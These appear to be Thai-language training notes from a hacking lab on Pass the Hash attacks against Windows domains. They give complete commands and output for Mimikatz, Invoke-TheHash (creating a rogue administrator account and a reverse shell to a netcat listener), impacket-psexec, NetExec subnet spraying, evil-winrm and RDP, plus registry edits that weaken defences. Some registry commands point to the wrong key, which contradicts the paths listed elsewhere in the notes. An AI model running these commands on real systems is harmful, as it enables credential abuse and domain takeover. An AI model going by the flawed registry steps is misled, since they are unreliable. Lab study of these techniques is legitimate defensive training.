






# Pass the Hash (PtH) Attack

## 📖 ภาพรวม

**Pass the Hash (PtH)** เป็นเทคนิคการโจมตีที่ผู้โจมตีใช้ **password hash** แทนรหัสผ่านแบบ plaintext ในการยืนยันตัวตน โดยผู้โจมตีไม่จำเป็นต้องถอดรหัส hash เพื่อให้ได้รหัสผ่านจริง

### 🔑 หลักการทำงาน

PtH attacks ใช้ประโยชน์จาก authentication protocol เนื่องจาก **password hash จะคงที่ (static) ในทุก session จนกว่าจะเปลี่ยนรหัสผ่าน**

---

## 🎯 ข้อกำหนดเบื้องต้น

### สิทธิ์ที่ต้องการ:
- **Administrative privileges** หรือ
- **Particular privileges** บนเครื่องเป้าหมาย

### วิธีการได้ Hash มา:

| วิธีการ | รายละเอียด |
|---|---|
| **Dumping SAM Database** | ดึง local SAM database จากเครื่องที่ถูกโจมตีสำเร็จแล้ว |
| **Extracting from NTDS** | ดึง hashes จาก NTDS database (ntds.dit) บน Domain Controller |
| **Memory Extraction** | ดึง hashes จาก memory (lsass.exe) |

### ตัวอย่างข้อมูลที่ใช้:
```
Username: julio
Domain: inlanefreight.htb
NTLM Hash: 64F12CDDAA88057E06A81B54E73B949B
```

---

## 🔐 Windows NTLM คืออะไร?

### คำนิยาม:

**NTLM (New Technology LAN Manager)** คือชุด security protocols ของ Microsoft ที่:
- ยืนยันตัวตนผู้ใช้
- ปกป้องความสมบูรณ์และความลับของข้อมูล
- เป็น Single Sign-On (SSO) solution
- ใช้ challenge-response protocol

### ⚠️ จุดอ่อนของ NTLM:

**ปัญหาหลัก:** รหัสผ่านที่เก็บบน server และ domain controller **ไม่มีการ salt**

**ความหมาย:**
- ผู้โจมตีที่มี password hash สามารถยืนยันตัวตนได้โดยไม่ต้องรู้รหัสผ่านจริง
- นี่คือ **Pass the Hash Attack**

### 📊 สถานะปัจจุบัน:

| ด้าน | รายละเอียด |
|---|---|
| **Default Protocol** | Kerberos (ตั้งแต่ Windows 2000) |
| **NTLM Usage** | ยังใช้เพื่อความเข้ากันได้กับ legacy systems |
| **Microsoft Stance** | ยังคง support แต่แนะนำให้ใช้ Kerberos |

---

## 🛠️ เครื่องมือสำหรับ Pass the Hash (Windows)

### 1. Mimikatz

#### โมดูลที่ใช้: `sekurlsa::pth`

#### Parameters ที่ต้องการ:

| Parameter | คำอธิบาย |
|---|---|
| `/user` | Username ที่ต้องการปลอมแปลง |
| `/rc4` หรือ `/NTLM` | NTLM hash ของรหัสผ่าน |
| `/domain` | Domain ของ user (ใช้ `.` สำหรับ local account) |
| `/run` | โปรแกรมที่ต้องการรัน (default: cmd.exe) |

#### การใช้งาน:

```cmd
c:\tools> mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

#### ผลลัพธ์:




**หลังจากนี้:** ใช้ `cmd.exe` เพื่อรันคำสั่งในบริบทของ user julio

**ตัวอย่าง:** เชื่อมต่อกับ shared folder ชื่อ "julio" บน DC

---

### 2. Invoke-TheHash (PowerShell)

#### คำอธิบาย:
- Collection ของ PowerShell functions
- รองรับ Pass the Hash ผ่าน **WMI** และ **SMB**
- ใช้ .NET TCPClient
- **ไม่ต้องการ local admin privileges** บน client
- แต่ user ที่ใช้ต้องมี **admin rights บนเครื่องเป้าหมาย**

#### Parameters ที่ต้องการ:

| Parameter | คำอธิบาย |
|---|---|
| `Target` | Hostname หรือ IP address |
| `Username` | Username สำหรับ authentication |
| `Domain` | Domain (ไม่จำเป็นสำหรับ local accounts) |
| `Hash` | NTLM hash (รองรับทั้ง LM:NTLM หรือ NTLM) |
| `Command` | คำสั่งที่ต้องการรัน |

---

#### A. Invoke-SMBExec (SMB Method)

**ตัวอย่าง:** สร้าง user ใหม่และเพิ่มเข้า Administrators group

```powershell
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1

PS c:\tools\Invoke-TheHash> Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

**ผลลัพธ์:**
```
VERBOSE: [+] inlanefreight.htb\julio successfully authenticated on 172.16.1.10
VERBOSE: inlanefreight.htb\julio has Service Control Manager write privilege on 172.16.1.10
VERBOSE: Service EGDKNNLQVOLFHRQTQMAU created on 172.16.1.10
VERBOSE: [*] Trying to execute command on 172.16.1.10
[+] Command executed with service EGDKNNLQVOLFHRQTQMAU on 172.16.1.10
VERBOSE: Service EGDKNNLQVOLFHRQTQMAU deleted on 172.16.1.10
```

---

#### B. Reverse Shell ด้วย Invoke-WMIExec

**ขั้นตอนที่ 1:** ตั้ง Netcat listener

```powershell
PS C:\tools> .\nc.exe -lvnp 8001

listening on [any] 8001 ...
```

**ขั้นตอนที่ 2:** สร้าง PowerShell reverse shell payload

- ไปที่ **revshells.com**
- ตั้งค่า: IP = 172.16.1.5, Port = 8001
- เลือก: **PowerShell #3 (Base64)**



**ขั้นตอนที่ 3:** รัน Invoke-WMIExec

```powershell
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1

PS c:\tools\Invoke-TheHash> Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e [BASE64_PAYLOAD]"
```

**ผลลัพธ์:**
```
[+] Command executed with process id 520 on DC01
```

**ได้:** Reverse shell connection จาก DC01 (172.16.1.10)





---

## 🐧 เครื่องมือสำหรับ Pass the Hash (Linux)

### 1. Impacket

#### A. impacket-psexec

**การใช้งาน:**
```bash
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

**ผลลัพธ์:**
```
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.129.201.126.....
[*] Found writable share ADMIN$
[*] Uploading file SLUBMRXK.exe
[*] Opening SVCManager on 10.129.201.126.....
[*] Creating service AdzX on 10.129.201.126.....
[*] Starting service AdzX.....
[!] Press help for extra shell commands

Microsoft Windows [Version 10.0.19044.1415]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

#### เครื่องมือ Impacket อื่นๆ:
- `impacket-wmiexec`
- `impacket-atexec`
- `impacket-smbexec`

---

### 2. NetExec (nxc)

#### คำอธิบาย:
- Post-exploitation tool สำหรับ Active Directory
- ใช้ automate การประเมิน security
- สามารถทดสอบ authentication กับหลาย hosts

#### A. Testing Password Reuse

```bash
# ทดสอบว่าเครื่องไหนใช้ local admin password เดียวกัน
netexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 --local-auth
```
- `--local-auth` = ให้ความแน่นอนว่าใช้ local auth

**ผลลัพธ์:**
```
SMB  172.16.1.10  445  DC01  [*] Windows 10.0 Build 17763 x64 (name:DC01)
SMB  172.16.1.10  445  DC01  [-] .\Administrator:30B3... STATUS_LOGON_FAILURE 
SMB  172.16.1.5   445  MS01  [*] Windows 10.0 Build 19041 x64 (name:MS01)
SMB  172.16.1.5   445  MS01  [+] .\Administrator:30B3... (Pwn3d!)
```

### ❌ **ไม่ใช้ `--local-auth` และระบุ -d INLANEFREIGHT** 

```bash
netexec smb 172.16.1.0/24 -u Administrator -d INLANEFREIGHT -H 30B3783CE2ABF1AF70F77D0660CF3453
```

**NetExec คิดว่า:**
- "คุณต้องการ authenticate ด้วย **domain account** `INLANEFREIGHT\Administrator`"
- พยายามใช้ hash นี้กับ **Domain Controller**

**ผลลัพธ์:**
```
SMB  172.16.1.10  445  DC01  [-] INLANEFREIGHT\Administrator:30B3... STATUS_LOGON_FAILURE
SMB  172.16.1.5   445  MS01  [-] INLANEFREIGHT\Administrator:30B3... STATUS_LOGON_FAILURE
SMB  172.16.1.20  445  WS01  [-] INLANEFREIGHT\Administrator:30B3... STATUS_LOGON_FAILURE
```

**ทำไมล้มเหลว?**
- Hash นี้เป็นของ **local account** ไม่ใช่ domain account
- Domain Controller ไม่รู้จัก hash นี้


#### B. Command Execution

**การใช้งาน:**
```bash
netexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

**ผลลัพธ์:**
```
SMB  10.129.201.126  445  MS01  [*] Windows 10 Enterprise 10240 x64
SMB  10.129.201.126  445  MS01  [+] .\Administrator 30B3783CE2ABF1AF70F77D0660CF3453 (Pwn3d!)
SMB  10.129.201.126  445  MS01  [+] Executed command 
SMB  10.129.201.126  445  MS01  MS01\administrator
```

---

### 3. evil-winrm

#### คำอธิบาย:
- ใช้ PowerShell remoting
- ทางเลือกเมื่อ SMB ถูก block
- ใช้เมื่อไม่มี administrative rights

#### การใช้งาน:

**Local Account:**
```bash
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

**Domain Account:**
```bash
evil-winrm -i 10.129.201.126 -u administrator@inlanefreight.htb -H 30B3783CE2ABF1AF70F77D0660CF3453
```

**ผลลัพธ์:**
```
Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

---

### 4. xfreerdp (RDP with PtH)

```
Restricted Admin Mode, which is disabled by default, should be enabled on the target host; otherwise, you will be presented with the following error:
```



#### ⚠️ ข้อกำหนด:

**1. Enable Restricted Admin Mode:**

```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

**Registry Path:**
```
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa
Value: DisableRestrictedAdmin = 0
```


#### การใช้งาน:

```bash
xfreerdp /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

**ผลลัพธ์:** ได้ GUI access ผ่าน RDP



---

## 🛡️ UAC และ Pass the Hash

### UAC Limitations

**Registry Key:**
```
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy
```

| ค่า | ความหมาย |
|---|---|
| `0` | เฉพาะ built-in admin (RID-500) ทำ remote admin ได้ |
| `1` | local admins อื่นๆ ทำ remote admin ได้ด้วย |

### FilterAdministratorToken

**Registry Key:**
```
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\FilterAdministratorToken
```

| ค่า | ความหมาย |
|---|---|
| `0` (default) | RID-500 bypass UAC |
| `1` | RID-500 ถูก UAC protection (PtH จะไม่สำเร็จ) |

### ⚠️ ข้อสังเกต:

✅ **Domain accounts** ที่มี administrative rights ยังสามารถใช้ PtH ได้ปกติ

❌ **Local accounts** จะถูกจำกัดโดย UAC settings


## 🔐 UAC (User Account Control) คืออะไร?

**UAC** เป็นฟีเจอร์ความปลอดภัยใน Windows ที่:
- ป้องกันการเปลี่ยนแปลงระบบโดยไม่ได้รับอนุญาต
- แม้ user เป็น Administrator ก็ยังถูกจำกัดสิทธิ์
- ต้อง "elevate" สิทธิ์เมื่อต้องการทำงานที่สำคัญ

---

## 🎯 ปัญหาของ UAC กับ Pass the Hash

### สถานการณ์:

คุณมี **local Administrator hash** และพยายาม Pass the Hash จากระยะไกล:

```bash
# ตัวอย่าง: ใช้ NetExec
netexec smb 172.16.1.10 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 --local-auth
```

**คำถาม:** จะสำเร็จหรือไม่? → **ขึ้นอยู่กับ UAC settings!**

---

## 📋 Registry Key ที่ 1: LocalAccountTokenFilterPolicy

### ที่อยู่:
```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy
```

### ค่าที่ตั้งได้:

| ค่า | ชื่อ | ความหมาย |
|---|---|---|
| **ไม่มี key นี้** หรือ **0** | Enabled (UAC ทำงาน) | เฉพาะ built-in Administrator (RID-500) ทำ remote admin ได้ |
| **1** | Disabled (UAC ปิด) | Local admins **ทุกคน** ทำ remote admin ได้ |

---

### 🔬 ทดสอบความแตกต่าง

#### **Scenario 1: Value = 0 (หรือไม่มี key)**

**สถานการณ์:**
- เครื่อง MS01 มี local users 2 คน:
  - `Administrator` (RID-500) - built-in admin
  - `htb-student` (RID-1001) - local admin ที่สร้างเอง

**ทดสอบ PtH:**

```bash
# ใช้ built-in Administrator (RID-500)
netexec smb 172.16.1.10 -u Administrator -d . -H <hash> --local-auth
# ผลลัพธ์: ✅ (Pwn3d!) - สำเร็จ!

# ใช้ htb-student (RID-1001)
netexec smb 172.16.1.10 -u htb-student -d . -H <hash> --local-auth
# ผลลัพธ์: ❌ STATUS_LOGON_FAILURE - ล้มเหลว!
```

**ทำไม htb-student ล้มเหลว?**
- UAC กรอง (filter) local admin accounts ทั้งหมด **ยกเว้น RID-500**
- แม้ htb-student จะเป็น local admin ก็ยังทำ remote admin ไม่ได้

---

#### **Scenario 2: Value = 1**

**เปลี่ยน registry:**
```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1 /f
```

**ทดสอบ PtH อีกครั้ง:**

```bash
# ใช้ built-in Administrator (RID-500)
netexec smb 172.16.1.10 -u Administrator -d . -H <hash> --local-auth
# ผลลัพธ์: ✅ (Pwn3d!) - สำเร็จ!

# ใช้ htb-student (RID-1001)
netexec smb 172.16.1.10 -u htb-student -d . -H <hash> --local-auth
# ผลลัพธ์: ✅ (Pwn3d!) - สำเร็จด้วย!
```

**ทำไม htb-student สำเร็จ?**
- UAC filtering ถูกปิด
- Local admins **ทุกคน** สามารถทำ remote admin ได้

---

## 📋 Registry Key ที่ 2: FilterAdministratorToken

### ที่อยู่:
```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\FilterAdministratorToken
```

### ค่าที่ตั้งได้:

| ค่า | ชื่อ | ความหมาย |
|---|---|---|
| **ไม่มี key นี้** หรือ **0** | Disabled (default) | RID-500 **bypass** UAC filtering |
| **1** | Enabled | RID-500 **ถูก** UAC filtering |

---

### 🔬 ทดสอบความแตกต่าง

#### **Scenario 1: Value = 0 (default)**

**สถานการณ์:**
- `LocalAccountTokenFilterPolicy` = 0 (UAC enabled)
- `FilterAdministratorToken` = 0 (RID-500 bypass UAC)

**ทดสอบ PtH:**

```bash
# ใช้ Administrator (RID-500)
netexec smb 172.16.1.10 -u Administrator -d . -H <hash> --local-auth
# ผลลัพธ์: ✅ (Pwn3d!) - สำเร็จ!
# เหตุผล: RID-500 ได้รับสิทธิพิเศษ bypass UAC
```

---

#### **Scenario 2: Value = 1**

**เปลี่ยน registry:**
```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v FilterAdministratorToken /d 1 /f
```

**ทดสอบ PtH อีกครั้ง:**

```bash
# ใช้ Administrator (RID-500)
netexec smb 172.16.1.10 -u Administrator -d . -H <hash> --local-auth
# ผลลัพธ์: ❌ STATUS_LOGON_FAILURE - ล้มเหลว!
# เหตุผล: RID-500 ถูก UAC filtering เหมือนกับ local admins คนอื่น
```

**สรุป:** แม้แต่ built-in Administrator ก็ทำ remote admin ไม่ได้!

---

## 🎭 Matrix ของความเป็นไปได้

### ตาราง: PtH สำเร็จหรือไม่?

| LocalAccountTokenFilterPolicy | FilterAdministratorToken | RID-500 | Local Admins อื่น |
|---|---|---|---|
| **0** (หรือไม่มี) | **0** (หรือไม่มี) | ✅ สำเร็จ | ❌ ล้มเหลว |
| **0** (หรือไม่มี) | **1** | ❌ ล้มเหลว | ❌ ล้มเหลว |
| **1** | **0** (หรือไม่มี) | ✅ สำเร็จ | ✅ สำเร็จ |
| **1** | **1** | ✅ สำเร็จ | ✅ สำเร็จ |


---

## 📋 สรุปเครื่องมือและ Use Cases

| เครื่องมือ | Platform | Protocol | Use Case | ต้องการ Admin? |
|---|---|---|---|---|
| **Mimikatz** | Windows | - | Start process with hash | ใช่ |
| **Invoke-TheHash** | Windows | SMB/WMI | Remote command execution | ไม่ (แต่ต้องมี admin บน target) |
| **impacket-psexec** | Linux | SMB | Command execution | ใช่ (บน target) |
| **NetExec** | Linux | SMB | Password spraying, enumeration | ใช่ (บน target) |
| **evil-winrm** | Linux | WinRM | PowerShell remoting | ใช่ (บน target) |
| **xfreerdp** | Linux | RDP | GUI access | ต้อง enable Restricted Admin |

---
